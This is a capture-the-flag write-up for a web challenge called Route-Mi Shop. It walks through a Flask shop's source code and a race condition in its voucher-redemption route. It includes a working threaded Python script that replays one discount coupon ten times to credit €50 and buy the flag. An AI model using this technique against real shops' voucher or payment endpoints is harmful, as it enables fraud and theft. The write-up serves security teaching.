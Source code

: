 # Day 10 - Route-Mi Shop

- Category: Web
- Difficulty: Medium
- Format: Whitebox

## Description

You dreamt it, we did it. The shop for the famous Route-Mi platform is now available. And guess what? We're offering you a €5 discount voucher, so enjoy yourself, it's on us.

## Writeup

**TLDR: Shop, reduction voucher, race condition**

As the app explains, the route-mi shop is finally available, and to celebrate, Root-Me is offering a €5 discount voucher for the shop.

![HomePage](images/img1.png)

Le site est open source et le code est accessible à l'URL suivante: 

- [https://day10.challenges.xmas.root-me.org/](https://day10.challenges.xmas.root-me.org/)

The sources looks like this:

```bash
» tree
.
├── app
│   ├── app
│   │   ├── app.py
│   │   ├── config.py
│   │   ├── flag.txt
│   │   ├── models.py
│   │   ├── requirements.txt
│   │   ├── routes.py
│   │   ├── static
│   │   │   └── images
│   │   │       ├── 1.png
│   │   │       ├── 2.png
│   │   │       ├── 3.png
│   │   │       ├── 4.png
│   │   │       ├── 5.png
│   │   │       ├── 6.png
│   │   │       └── logo.png
│   │   └── templates
│   │       ├── account.html
│   │       ├── base.html
│   │       ├── home.html
│   │       ├── login.html
│   │       └── signup.html
│   └── Dockerfile
├── docker-compose.yml
├── README.md
```

All in all, this is a python application based on the Flask framework, which uses SQLAlchemy for the database, and the queries seem to be well done.

When you arrive on the page, the objective is quite clear: you don't necessarily have to order a route-mi t-shirt, even if everyone dreams of one, but you do have to succeed in obtaining the “Flag” item.

![Flag](images/img2.png)

However, it costs €50 and it's not possible to credit money to our account.

Once our account created, we can go to our account settings and discover we have a new voucher of 5€ ready to be added to our account, offered by Root-Me.

![Account](images/img3.png)

By reading the source code we see that voucher is based on UUIDv4 and a priori there's no way of predicting UUIDv4. And even if it were possible, each voucher is linked to an account, to avoid a user creating several accounts and crediting all the vouchers to a single account.

```python
@app.route('/signup', methods=['GET', 'POST'])
def signup():
    if request.method == 'POST':
        email = request.form['email']
        password = request.form['password']
        
        if User.query.filter_by(email=email).first():
            flash('Email already known.')
            return redirect(url_for('signup'))
        
        new_user = User(email=email)
        new_user.set_password(password)
        
        db.session.add(new_user)
        db.session.commit()
        
        coupon_code = str(uuid4())
        coupon = Coupon(code=coupon_code, user_id=new_user.id)
        
        db.session.add(coupon)
        db.session.commit()
        
        flash('Account created! You can now login.')
        return redirect(url_for('login'))
    
    return render_template('signup.html')
```

The application doesn't seem to be vulnerable to any injection force, as it's based on flask_sqlalchemy, which, last time I checked, isn't vulnerable to SQL Injections or anything else.

We're going to analyze each function one by one, but we're going to focus on the application's most sensitive feature, the one that allows you to validate the voucher to add €5 to your account.

The "buy" function explains that if a user succeeds in buying the flag then he can validate the challenge.

```python
@app.route('/buy/<int:product_id>', methods=['POST'])
@login_required
def buy(product_id):
    product = Product.query.get(product_id)
    user = User.query.get(session['user_id'])

    if user.balance >= product.price:
        if product.name == "Flag":
            flash(f"Congratzzz, here is your flag : {open('flag.txt').read()}")
        else:
            flash(f"Thanks for your purchase! You will receive your ✨{product.name}✨ very soon!")

        user.balance -= product.price
        db.session.commit()
    else:
        flash("Insufficient balance for this product.")

    return redirect(url_for('home'))
```

However, a voucher can only be validated once, and is specific to each user session, which means that it is not possible to create several accounts to have enough vouchers and validate them all on the same account.

```python
@app.route('/discount', methods=['POST'])
@login_required
def discount():
    user = User.query.get(session['user_id'])
    coupon_code = request.form.get('coupon_code')

    coupon = Coupon.query.filter_by(user_id=user.id, code=coupon_code).first()

    balance = int(user.balance)
    if coupon:
        if not coupon.used:
            balance += 5.0
            user.balance = balance
            db.session.commit()

            anti_bruteforce(2)

            coupon.used = True
            user.can_use_coupon = False
            db.session.commit()
            flash("Your account has been credited with 5€ !")
        else:
            flash("This coupon has already been used.")
    else:
        flash("This coupon is invalid or does not belong to you.")

    return redirect(url_for('account'))
```

By reading the code, you can see how it works. The process is as follows:

- Add +€5 to the account
- Save data
- Sleep 2 seconds to avoit bruteforce attack (wait what?)
- Invalidate the voucher
- Block the user to add new voucher
- Save data

Among other things, users can credit a €5 voucher to their account and then have 2 seconds to resubmit requests before the voucher is invalidated. This is a Race Condition.

To exploit it we will send 10 requests (10*5€) in less than 2 seconds in order to obtain €50 on our wallet!

The python script works perfectly to do this :

```python
import sys
import threading
import requests
import time
import urllib3
urllib3.disable_warnings()

def post_discount(session_cookie, coupon_code):
    url = 'https://day10.challenges.xmas.root-me.org/discount'
    headers = {
        'Host': 'day10.challenges.xmas.root-me.org',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Accept-Encoding': 'gzip, deflate, br',
        'Cookie': f'session={session_cookie}',
    }
    data = {
        'coupon_code': coupon_code
    }
    response = requests.post(url, headers=headers, data=data, verify=False)
    print(f"Request sent .. {response.status_code}")

def main():
    if len(sys.argv) < 3:
        print("Usage: python script.py <session_cookie> <coupon_code>")
        sys.exit(1)

    session_cookie = sys.argv[1]
    coupon_code = sys.argv[2]

    for _ in range(10):
        thread = threading.Thread(target=post_discount, args=(session_cookie, coupon_code))
        thread.start()
        time.sleep(0.2) 

if __name__ == "__main__":
    main()
```

![Run](images/img4.png)

Once the script has been executed, we can return to our account and see that the Race Condition has been carried out and that the balance is 50€!

![NewAccount](images/img5.png)

So you can buy the flag and validate the challenge: 

![Flag](images/img6.png)